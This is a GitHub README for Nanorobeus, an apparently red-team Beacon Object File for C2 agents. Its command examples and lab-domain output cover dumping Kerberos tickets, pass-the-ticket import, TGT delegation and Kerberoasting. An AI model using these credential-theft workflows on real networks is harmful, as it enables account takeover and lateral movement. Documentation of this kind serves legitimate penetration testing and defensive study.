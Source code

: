 # Nanorobeus
COFF file (BOF) for managing Kerberos tickets.

## Supported agents
* [Sliver](https://github.com/BishopFox/sliver)
* [Brute Ratel](https://bruteratel.com)
* Any other agent supporting Cobalt Strike BOFs (not tested)

## Commands

**luid** - get current logon ID

**sessions** *[/luid <0x0>| /all]* - get logon sessions

**klist** *[/luid <0x0> | /all]* - list Kerberos tickets

**dump** *[/luid <0x0> | /all]* - dump Kerberos tickets

**ptt** *\<base64\> [/luid <0x0>]* - import Kerberos ticket into a logon session

**purge** *[/luid <0x0>]* - purge Kerberos tickets

**tgtdeleg** *\<spn\>* - retrieve a usable TGT for the current user

**kerberoast** *\<spn\>* - perform Kerberoasting against specified SPN

## Examples
Get current logon ID.
```
=> nanorobeus64 luid

[+] Current LogonId: 0:0x19ea88e
```
Get detailed information about the current logon session.
```
=> nanorobeus64 sessions

UserName                : User
Domain                  : FORTRESS
LogonId                 : 0:0x19ea88e
Session                 : 2
UserSID                 : S-1-5-21-1768674056-2740991423-664180583-1105
Authentication package  : Kerberos
LogonType               : Interactive
LogonTime (UTC)         : 2/7/2022 19:22:43
LogonServer             : SERVER
LogonServerDNSDomain    : FORTRESS.LOCAL
UserPrincipalName       : user@fortress.local
```
List Kerberos tickets for the current logon session. When elevated, use `/all` to list tickets from all of the sessions or `/luid 0x0` to list tickets in a specified logon session.
```
=> nanorobeus64 klist

UserName                : User
Domain                  : FORTRESS
LogonId                 : 0:0x19ea88e
Session                 : 2
UserSID                 : S-1-5-21-1768674056-2740991423-664180583-1105
Authentication package  : Kerberos
LogonType               : Interactive
LogonTime (UTC)         : 2/7/2022 19:22:43
LogonServer             : SERVER
LogonServerDNSDomain    : FORTRESS.LOCAL
UserPrincipalName       : user@fortress.local

[*] Cached tickets: (6)

	[0]
	Client name     : User @ FORTRESS.LOCAL
	Server name     : krbtgt/FORTRESS.LOCAL @ FORTRESS.LOCAL
	Start time      : 2/7/2022 19:22:44 (UTC)
	End time        : 3/7/2022 5:22:43 (UTC)
	Renew time      : 9/7/2022 19:22:43 (UTC)
	Flags           : forwardable, forwarded, renewable, pre_authent, name_canonicalize (0x60a10000)
	Encryption type : AES256_CTS_HMAC_SHA1
    ...(snip)...
```
Dump tickets from the current logon session. When elevated, use `/all` to dump tickets from all of the sessions or `/luid 0x0` to dump tickets from a specified logon session.
```
=> nanorobeus64 dump

UserName                : User
Domain                  : FORTRESS
LogonId                 : 0:0x19ea88e
Session                 : 2
UserSID                 : S-1-5-21-1768674056-2740991423-664180583-1105
Authentication package  : Kerberos
LogonType               : Interactive
LogonTime (UTC)         : 2/7/2022 19:22:43
LogonServer             : SERVER
LogonServerDNSDomain    : FORTRESS.LOCAL
UserPrincipalName       : user@fortress.local

[*] Cached tickets: (6)

	[0]
	Client name     : User @ FORTRESS.LOCAL
	Server name     : krbtgt/FORTRESS.LOCAL @ FORTRESS.LOCAL
	Start time      : 2/7/2022 19:22:44 (UTC)
	End time        : 3/7/2022 5:22:43 (UTC)
	Renew time      : 9/7/2022 19:22:43 (UTC)
	Flags           : forwardable, forwarded, renewable, pre_authent, name_canonicalize (0x60a10000)
	Encryption type : AES256_CTS_HMAC_SHA1
	Ticket          : doIFFjCCBRKgAwIBBaEDAgEWooIEGTCCBBVhggQRMIIEDaADAg...(snip)...
```
Import a ticket into the current logon session. When elevated, use `/luid 0x0` to import the ticket into a specified logon session.
```
=> make_token network fortress.local test pass
=> nanorobeus64 ptt doIFqjCCBaagAwIB...snip...

[+] Ticket successfully imported.
```
Purge all Kerberos tickets from the current logon session. When elevated, use `/luid 0x0` to purge the tickets from a specified logon session.
```
=> nanorobeus64 purge

[+] Successfully purged tickets.
```
Retrieve a usable TGT for the current user.
```
=> nanorobeus64 tgtdeleg cifs/server.fortress.local

[*] Found the AP-REQ delegation ticket in the GSS-API output
[*] Authenticator etype: AES256_CTS_HMAC_SHA1
[*] Successfully extracted the service ticket session key
[*] Successfully decrypted authenticator
[+] Successfully extracted TGT: doIFeDCCBXSgAwIBBaEDAgEWooIEcjC...(snip)...
```
Perform Kerberoasting by specifying SPN:
```
=> nanorobeus64 kerberoast HTTP/server.fortress.local

[*] Target SPN: HTTP/server.fortress.local
[+] Hash: $krb5tgs$23$*$FORTRESS.LOCAL$HTTP/server.fortress.local*$ac5e2f4d28fd377...(snip)...
```

## Credits
* Rubeus - https://github.com/GhostPack/Rubeus
* mimikatz - https://github.com/gentilkiwi/mimikatz
* kekeo - https://github.com/gentilkiwi/kekeo # kerbof
